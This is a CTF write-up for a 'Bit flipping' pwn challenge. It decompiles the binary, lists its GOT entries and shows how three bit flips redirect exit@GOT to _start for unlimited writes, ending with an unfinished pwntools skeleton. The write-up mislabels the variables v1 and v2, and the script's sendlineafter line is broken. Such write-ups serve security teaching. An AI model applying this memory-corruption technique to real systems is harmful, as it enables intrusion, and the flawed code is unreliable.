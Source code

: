 # Bit flipping: Pwning

This was quite an interesting challenge because there's a logic bug in this challenge which was there intentionally(?). In this challenge the binary allow you to do a bit flipping of a address and we have to cleverly choose the address and exactly how many bits we want to flip. Without further ado, let's move:-

##### `main` function pseudocode

The `main` function prints `buf`(?) and then calls `do_flip` 5 times and then exits.

> `buf` is not defined in the `main` function.

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+18h] [rbp-8h]

  puts(buf);
  v3 = 0;
  printf("I'll let you flip 5 bits, but that's it!\n", argv);
  while ( v3 < 5 )
  {
    do_flip();
    ++v3;
  }
  printf("Thank you for flipping us off!\nHave a nice day :)\n");
  exit(0);
}
```
##### `initialie` function pseudocode


The `buf` is getting initialized by `uptime` which gets printed by the `sprintf` using the variable `format`. Now, this seems quite understandable since `initialize` will setup the buf which is called in `_start` before `main`. 

```C
int initialize()
{
  struct tm *v0; // rax
  char *format; // ST10_8
  char *v2; // rax
  time_t timer; // [rsp+40h] [rbp-10h]
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  timer = time(0LL);
  v0 = localtime(&timer);
  format = welcome_str;
  v2 = asctime(v0);
  return snprintf(buf, 0x7FuLL, format, v2);
}
```

#### Disassembly of `do_flip`

This is the function which will flip the address by `n` bits.

```C
unsigned __int64 do_flip()
{
  unsigned int v1; // [rsp+Ch] [rbp-14h]
  _BYTE *v2; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Enter addr:bit to flip: ");
  __isoc99_fscanf(stdin, "%p:%u", &v2, &v1);
  if ( v1 > 7 )
    exit(1);
  *v2 ^= 1 << v1;
  return __readfsqword(0x28u);
}
```

It takes 2 input via scanf, one being a hex formatted address and second being the amount of times we want to  flip that address. 

* `v1`: This will be the address.
* `v2` : This will be the number of times we want to flip that address.

##### Pwning time

Now, 5 times is not enough to do something cleverish and useful, so first we need to overwrite any GOT which is being called after the function exits, the only funtion which is called after `do_flip` done executing is `exit` and `printf`.

Firstly, let's get the GOT address of all the functions:-

```r
[0x601018] localtime@GLIBC_2.2.5  →  0x4006c6
[0x601020] __isoc99_fscanf@GLIBC_2.7  →  0x4006d6
[0x601028] puts@GLIBC_2.2.5  →  0x4006e6
[0x601030] __stack_chk_fail@GLIBC_2.4  →  0x4006f6
[0x601038] asctime@GLIBC_2.2.5  →  0x400706
[0x601040] printf@GLIBC_2.2.5  →  0x400716
[0x601048] snprintf@GLIBC_2.2.5  →  0x400726
[0x601050] alarm@GLIBC_2.2.5  →  0x400736
[0x601058] time@GLIBC_2.2.5  →  0x400746
[0x601060] setvbuf@GLIBC_2.2.5  →  0x400756
[0x601068] exit@GLIBC_2.2.5  →  0x400766
```

Address of `_start` and `main`:-

```r
gef➤  p _start
$3 = {<text variable, no debug info>} 0x400770 <_start>
gef➤  p main
$4 = {<text variable, no debug info>} 0x400940 <main>
```

Let's see the bit representation of `exit.got`, `main` and `_start`:-


```py
>>> main = 0x400940
>>> start = 0x400770
>>> exit = 0x400766
>>> bin(main)[2:]
'10000000000100101000000'
>>> bin(start)[2:]
'10000000000011101110000'
>>> bin(exit)[2:]
'10000000000011101100110'
```

The one which is closed to `exit` is `_start` which requires only 3 bit flips to change the address and make the `exit` points to `_start`.

```py
>>> bin(exit)[2:]
'10000000000011101100110'
>>> bin(start)[2:]
'10000000000011101110000'
>>> exit ^= 1 << 1
>>> exit ^= 1 << 2
>>> exit ^= 1 << 4
>>> bin(exit)[2:]
'10000000000011101110000'
>>> bin(start)[2:]
'10000000000011101110000'
```

Great, now since we can change the `exit` address with `_start` address we can get infinte amount of flips. What we need to do now is somehow find a way to leak any libc address. Let's get on work:-

Firstly, let's try to make a skeleton script which will be the base for exploit:-

```py
from pwn import *

elf = ELF("flip")

exit_got = elf.got['exit']

def flip(address, bits):
	p.sendlineafter(": %s:%d", %(address, bits))

p = process(elf.path)

flip(exit_got, 1)
flip(exit_got, 2)
flip(exit_got, 4)
flip(0x44, 2)  # junk
flip(0x11, 2)  # junk

p.interactive()```
